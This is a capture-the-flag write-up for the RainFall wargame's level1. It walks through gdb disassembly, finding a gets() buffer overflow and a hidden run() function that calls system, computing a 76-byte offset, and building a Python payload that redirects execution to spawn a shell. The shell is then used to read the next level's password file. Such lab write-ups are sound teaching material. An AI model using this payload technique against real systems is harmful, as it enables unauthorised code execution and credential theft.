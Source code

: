 **Basic examination**

Again, only one file, "level1" to run. Let's try it.
~~~bash
./level1
|
~~~
Exacutable waits for the user input and than exits. 

**Assembly dump analysis**

The assembly dump for a main function in **gdb** tool will show us more:
~~~assembly
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp       ;stack allignment up to this point.
   0x08048486 <+6>:	sub    $0x50,%esp             ;allocates 80 bytes (0x50 in hex) to the stack
                                                  ;there would be some variable declared with memory allocated.
   0x08048489 <+9>:	lea    0x10(%esp),%eax    
   0x0804848d <+13>:	mov    %eax,(%esp)           ;moves the addressin EAX (buffer) to the top of the stack
   0x08048490 <+16>:	call   0x8048340 <gets@plt>  ;calls the gets function (reads the line of input from user
                                                   ;and stores it into the buffer.
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret                          ;pops the return address from the stack and jumps to it
~~~

As we can see, the main allocates 80 bytes on the stack, calculates the pointer to the buffer for gets, calls gets and returns, with no other procedures. This looks like a dead end and we need to examine further, so we list all the functions in gdb, using **info functions** command. From the listing, **run()** looks like our way forward, as also the assembly dump suggest by calling a system function:
~~~assembly
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>      ;writing a message
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>      ;calling system function, pattern that we identified in the                                                            ;previous level
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret  
~~~
There is no direct call from **main** to run run(), so we need to somehow force the execution workflow to run it. This will be done using **buffer overflow** (stakc frame and principles of buffer overflow beautifully explained [**HERE**](https://www.cameronwickes.co.uk/stack-frames-pointers/).  

## Buffer overflow
The memory address of the run is **0x08048444**as we can see from the previous info functions command in gdb. Now we just need and offset to get the location of the proper position to rewrite in stack frame of the program. We can use some pattern generator (like [**Wiremask**](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) along with gdb to calculate it. Running a program with dummy pattern will give us a segfault, but gdb will tell us it happens at **0x63413563**. We put this to Wiremask tool to find out the offset is 76.
Now we can create a string to send to the program that will contain the memory address of the run() function right after the offset, thus forcing it to execute as return address. We can do this using a simple python script and a pipe to send the output to the program as stdin:
~~~bash
level1@RainFall:~$ python -c 'print "42" * 38 + "\x08\x04\x84\x44"[::-1]' > /tmp/exploit
~~~
Runs the command in python (-c), printing 76 bytes + mem address using little endian as proper format (python will reverse bytes using[::-1], printing it as a little endian) into the file. On most x86 and x86-64 architectures, memory is organized in little-endian format. When you work with memory addresses directly, such as when you're exploiting a buffer overflow, you need to respect this byte order to ensure that the program interprets the address correctly.
~~~bash
level1@RainFall:~$ cat /tmp/exploit - | ./level1
~~~
cats the file as stdin ("-") and sends it to the execution of the program...and...voila!
~~~bash
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
~~~


